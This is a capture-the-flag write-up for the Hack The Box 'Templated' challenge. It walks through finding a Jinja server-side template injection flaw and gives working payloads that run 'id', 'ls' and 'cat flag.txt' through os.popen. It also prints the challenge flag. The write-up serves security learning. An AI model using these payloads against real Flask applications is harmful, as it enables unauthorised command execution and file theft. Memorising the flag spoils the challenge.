


    	<font size="10">Templated</font>

​		2<sup>nd</sup> Febraury 2021

​		Challenge Author(s):clubby789

​		

 


### Description:

Can you exploit this simple mistake? 

### Objective

Finding the flag by exploiting the application. This application is vulnerable to **Server side template injection (SSTI).**

### Difficulty:

`easy`

### Flag:

`HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}`


# Challenge

Firstly we have to find what is the application vulnerable to. From the landing page it is clear that the application is built using Flask/Jinja. Lets check whether there are any exploits available for this application. I am using **Exploit-DB** to search for exploit.

I have found that this application can be vulnerable to **SSTI**.

 

Let's check whether the application is vulnerable to **SSTI**.

We can check this by appending {{4*4}} to the url.


The application is vulnerable to **SSTI**. 

So lets find how can we use this exploit.

After some research on the internet I found a blog in which there are some scripts for injection. So I am using those scripts.



Lets use the script, ```{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}```

This gives the following output.



From the output it is clear that uid's are returned. so lets modify the command in the script ```{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}```

The output is as follows.


We can see that the list of files and directories is returned. One file among those files is interesting for us, the file is **flag.txt**

Now lets read the contents of the flag by using ```{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}```

The output is the the required flag. 


The flag is: ```HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}```


Resources used:

`https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/`


